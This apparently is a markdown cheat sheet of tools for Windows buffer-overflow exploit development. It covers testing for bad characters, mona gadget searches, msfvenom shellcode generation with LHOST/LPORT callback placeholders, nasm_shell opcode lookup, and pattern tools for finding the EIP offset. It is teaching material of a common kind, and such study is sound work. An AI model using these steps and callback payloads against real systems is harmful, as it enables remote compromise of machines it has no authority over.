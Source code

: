 # [bad chars](https://www.asciitable.com/):
  * test entire ascii range in bytes and figure out which characters are filtered or otherwise mess up a payload

# [mona](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/):
#### `<from Immunity> !mona modules`
#### `<from Immunity> !mona find -s "\xff\xed" -m <dll_name>`
  * shows dlls that you can use to hijack a jmp (or equivalent) command - `jmp esp` or `push espn | retn` are great

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [nasm_shell](https://guif.re/bo):
#### `ruby /usr/share/metasploit-framework/tools/nasm_shell.rb`
#### `<from nasm> <assembly command>`
  * tells you the opcode for an entered assembly command

# [pattern_create](https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/):
#### `/usr/share/metasploit-framework/tools/pattern_create.rb -l <length>`
  * makes a string with unique patterns for finding where an overflow writes EIP

# [pattern_offset](https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/):
#### `/usr/share/metasploit-framework/tools/pattern_offset -l <length> -q <desired value>`
  * tells you where in your buffer you overflow on to the desired spot (usually EIP)
